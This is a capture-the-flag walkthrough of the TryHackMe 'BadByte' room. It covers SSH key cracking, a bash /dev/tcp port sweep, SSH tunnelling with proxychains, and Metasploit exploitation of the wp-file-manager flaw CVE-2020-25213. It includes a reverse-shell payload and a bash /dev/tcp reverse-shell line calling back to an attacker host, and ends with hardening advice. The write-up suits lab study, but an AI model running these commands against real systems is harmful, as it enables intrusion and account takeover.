

## Overview

| | |
|---|---|
| **Platform** | TryHackMe |
| **Difficulty** | Easy |
| **URL** | <a href="https://tryhackme.com/room/badbyte" target="_blank">https://tryhackme.com/room/badbyte</a> |
| **Focus** | SSH tunneling and port forwarding |

BadByte is an easy TryHackMe room. Very little is exposed on the outside, and the whole path to root unfolds from there. This is how I worked it, in the order I worked it.

---

## Reconnaissance

```bash
rustscan -a <TARGET_IP> | tee rustscan.txt
nmap -sS -sC -sV -O -Pn -p 22,30024 <TARGET_IP> -oN nmap.txt

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11
30024/tcp open  ftp     vsftpd 3.0.5
```

Only two ports: SSH and an FTP server on a high port. FTP is the only thing to pull on, so that's where I started.

---

## Getting In

```bash
ftp <TARGET_IP> 30024
# login: anonymous, no password

-rw-r--r-- id_rsa
-rw-r--r-- note.txt
```

Anonymous login is open, with two files waiting. `note.txt` gives me a username, `errorcauser`, and `id_rsa` is a private key — passphrase-protected, so it's no use on its own. John recovers the passphrase:

```bash
ssh2john id_rsa > id_rsa_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt

<PASSPHRASE> (id_rsa)
```

---

## Inside the Jail

```bash
ssh -i id_rsa errorcauser@<TARGET_IP>
```

The shell is a chroot jail: `/` holds almost nothing — `bash`, `cat`, `date`, `ls`, no `/proc`, no `/usr`. A `cat` of `/etc/passwd` still leaks the real users, `cth` (uid 1000) and `errorcauser` (uid 1001), and a note from `cth` mentions a web server reachable only from localhost.

The jail has no `ss`, no `nc`, no `nmap`, so to see what's actually listening I used bash itself. `/dev/tcp` sweeps localhost with nothing but the shell:

```bash
for port in {1..65535};do (echo > /dev/tcp/127.0.0.1/$port) 2>/dev/null && echo "port $port open";done
port 22 open
port 80 open
port 3306 open
port 30024 open
```

A web server on 80 and MySQL on 3306, both bound to loopback — which is why the external scan never saw them.

---

## Port Forwarding

I know what's listening; now I need to reach it. Two separate SSH connections, each with a job: `-D` to discover the internal services blind, `-L` to use the ones I already know about. They're not alternatives.

Dynamic forwarding first, to scan the internal ports through a SOCKS proxy:

```bash
ssh -i id_rsa -N -D 1337 errorcauser@<TARGET_IP>
```

With `socks5 127.0.0.1 1337` added to `/etc/proxychains4.conf`:

```bash
sudo proxychains -q nmap -sT -Pn -sV -p- 127.0.0.1

22/tcp    open ssh     OpenSSH 8.2p1
80/tcp    open http    Apache httpd 2.4.41
3306/tcp  open mysql   MySQL 8.0.39
30024/tcp open ftp     vsftpd 3.0.5
33060/tcp open mysqlx  MySQL X protocol
```

Three flags matter here. It's `-sT` because a SOCKS proxy only carries full TCP connects — a raw SYN scan never makes it through the tunnel. It's `sudo` because proxychains hooks nmap with `LD_PRELOAD`, and the loader ignores that for nmap's capabilities unless nmap runs as root. And `-Pn` because the host-discovery ping doesn't cross the proxy either.

With the services mapped, local forwarding brings the web server to my own machine:

```bash
ssh -i id_rsa -N -L 8080:127.0.0.1:80 errorcauser@<TARGET_IP>
```

The internal WordPress is now at `http://127.0.0.1:8080`.

---

## WordPress RCE

Enumerating the forwarded port — no proxychains needed, the NSE script goes straight at `127.0.0.1:8080`:

```bash
nmap -sV -p 8080 --script http-wordpress-enum 127.0.0.1

plugins: akismet, duplicator 1.3.26, wp-file-manager 6.0
```

That's one way to list the plugins. `wpscan` is another, and in a single run it enumerates both plugins and users:

```bash
wpscan --url http://127.0.0.1:8080/ --enumerate u,p

[+] wp-file-manager 6.0 (100% confidence)
[+] duplicator 1.3.26
[+] User: cth
```

Either way, `wp-file-manager 6.0` is vulnerable to CVE-2020-25213, an unauthenticated RCE. Metasploit has a module for it:

```bash
msfconsole -q

use exploit/multi/http/wp_file_manager_rce
set RHOSTS 127.0.0.1
set RPORT 8080
set payload php/reverse_php
set LHOST tun0
set LPORT <ATTACKER_PORT>
run
```

Meterpreter didn't work for me on this box when I ran the room — the staged payload looped on connect and the stageless one failed to load its extensions. The plain command-shell payload `php/reverse_php` connected on the first try and gave me a session as `cth`. When meterpreter won't cooperate, a one-piece command shell is often the faster answer.

One important detail if you want a cleaner reverse shell from that session: `bash -i >& /dev/tcp/...` on its own fails with `Bad fd number`, because the msf command shell runs through `/bin/sh` (dash), which has neither `>&` nor `/dev/tcp`. Wrapping it in `bash -c '...'` hands the whole line to bash, and it works.

---

## From cth to root

`cth` turns out to be in the `sudo` group, so its password alone is enough to become root. I found it where it shouldn't be: a non-standard log under `/var/log` had captured the user's own password, typed into the shell by mistake. The credential follows a predictable pattern, and with `cth` in the `sudo` group that's all it takes.

```bash
sudo su
# [sudo] password for cth: <PASSWORD>
```

And that's root. Logging in over SSH as `cth` also gives a clean TTY for `sudo` — `cth` isn't jailed, the chroot only applied to `errorcauser`.

---

## How the Jail Was Built

With root, I wanted to see the configuration that let me tunnel out in the first place:

```bash
grep -iA2 'Match User' /etc/ssh/sshd_config

Match User errorcauser
ChrootDirectory /home/errorcauser
```

The `Match` block only sets `ChrootDirectory`. `AllowTcpForwarding` is left at its global default of `yes`, so port forwarding stayed open for the jailed user — exactly the gap I walked through. To actually contain someone in that jail, the block needs `AllowTcpForwarding no`, `PermitTunnel no`, `AllowAgentForwarding no` and `X11Forwarding no`. A chroot locks the filesystem; it does nothing for the network.

---

## Attack Flow



---

## Key Takeaways

**A chroot is not a network boundary.** It restricts the filesystem, not port forwarding. Leave `AllowTcpForwarding` at its default and a jailed user can still tunnel straight to the services the jail was meant to hide.

**Loopback binding is not access control.** A service on `127.0.0.1` is invisible to an external scan but one SSH tunnel away for anyone who can log in. It's obscurity, not a boundary.

**With no tools, bash is a port scanner.** `/dev/tcp` sweeps localhost from inside a stripped jail with nothing but the shell — no `ss`, no `nc`, no `nmap` required.

**Shells log more than people expect.** A password typed as a command ends up in a log; a single mistyped `sudo` is all it took to leak the credential that led to root.
